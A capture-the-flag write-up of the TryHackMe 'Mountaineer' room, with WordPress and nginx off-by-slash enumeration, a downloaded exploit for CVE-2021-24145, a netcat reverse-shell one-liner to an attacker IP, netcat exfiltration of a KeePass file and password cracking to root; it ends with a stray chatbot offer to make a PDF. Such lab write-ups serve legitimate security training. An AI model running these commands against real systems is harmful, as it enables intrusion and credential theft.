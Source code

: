 # TryHackMe: Mountaineer

**Posted:** Oct 21, 2024   |   **Updated:** Feb 16, 2025
*By G P*
*(\~11 min read)*

---

Mountaineer was an interesting box that started with discovering a WordPress instance running a plugin vulnerable to authenticated RCE. Using the nginx off-by-slash vulnerability, I was able to read files on the server, which revealed a vhost hosting Roundcube. By logging into Roundcube with guessable credentials, I found WordPress creds and some user info. Using the creds, I exploited the vulnerable plugin to get a shell as `www-data`.

Later, I found a KeePass database belonging to a user I had info on. By generating a targeted wordlist, I cracked the master password for the database, which gave me creds for another user. Checking their bash history revealed the `root` password, allowing me to complete the room.

Finally, I’ve also documented how the nginx off-by-slash vuln can be combined with WordPress password reset to gain a foothold.

---

## Room Link

[TryHackMe Mountaineer](#)

---

## Initial Enumeration

### Nmap

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.146.154
```

**Ports open:**

* 22 (SSH)
* 80 (HTTP)

Visiting `http://10.10.146.154` showed the default nginx page.

---

## Shell as www-data

### Enumerating WordPress

Using `ffuf`, I found `/wordpress/`:

```bash
ffuf -u 'http://10.10.146.154/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -t 100 -ic -fs 162
```

Since resources loaded under `mountaineer.thm`, I added:

```
10.10.146.154 mountaineer.thm
```

to `/etc/hosts`.

---

### WPScan Enumeration

```bash
wpscan --url http://mountaineer.thm/wordpress/ -e ap,vt,tt,cb,dbe,u,m
```

**Users discovered:**

* admin
* everest
* montblanc
* chooyu
* k2

**Plugin discovered:**

* Modern Events Calendar Lite 5.16.2

**Vulnerabilities:**

* CVE-2021-24946 (unauth blind SQLi, not useful for creds)
* CVE-2021-24145 (auth RCE via arbitrary file upload)

---

## Nginx Off-By-Slash

Fuzzing `/wordpress/` revealed `/wordpress/images/`, which was exploitable via:

```
/wordpress/images../.
```

to read server files. Extracted:

* `adminroundcubemail.mountaineer.thm`

Added to hosts:

```
10.10.146.154 adminroundcubemail.mountaineer.thm
```

---

## Roundcube Access

Navigated to `http://adminroundcubemail.mountaineer.thm` and brute-forced weak creds. Logged in using:

```
k2:k2
```

* Found password in inbox
* Found `lhotse` user info in sent items

---

## Exploiting CVE-2021-24145

Logged into WordPress as `k2`, used:

```bash
wget https://raw.githubusercontent.com/Hacker5preme/Exploits/refs/heads/main/Wordpress/CVE-2021-24145/exploit.py
python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p <password>
```

Confirmed shell upload:

```
http://mountaineer.thm/wordpress/wp-content/uploads/shell.php
```

Got reverse shell as `www-data`:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my-ip> 443 >/tmp/f
```

---

## Shell as kangchenjunga

### Finding KeePass Database

Found `Backup.kdbx` in `/home/lhotse/`, readable by `www-data`. Transferred via:

```bash
nc -lvnp 444 > Backup.kdbx
nc <my-ip> 444 < /home/lhotse/Backup.kdbx
```

---

### Cracking KeePass

Generated hash:

```bash
keepass2john Backup.kdbx > keepass_hash
```

Default lists failed, so generated targeted wordlist using `cupp`:

```bash
cupp -i
```

Cracked using:

```bash
john keepass_hash --wordlist=mount.txt
```

Recovered master password, opened in `kpcli`, retrieved `kangchenjunga` creds.

---

### SSH Access

```bash
ssh kangchenjunga@mountaineer.thm
```

Found first flag:

```
/home/kangchenjunga/local.txt
```

---

## Root Access

### Checking Bash History

Found note in `mynotes.txt` that root used this user’s account. `.bash_history` contained:

```
suroot
<root-password>
```

Switched to root:

```bash
su - root
```

Read final flag:

```
/root/root.txt
```

---

## Alternative Foothold: Password Reset + Off-By-Slash

1. Use **WordPress password reset** for `admin`.
2. Exploit nginx off-by-slash to read `/var/mail/www-data` and get the reset link.
3. Reset admin password.
4. Use CVE-2021-24145 or plugin upload to get `www-data` shell.

---

## Notes

✅ Demonstrated multiple foothold paths
✅ Practical off-by-slash exploitation and KeePass cracking
✅ Covered complete path to root

---

If you need, I can generate this as a **clean PDF for your TryHackMe collection** for easy review and print-friendly offline study.
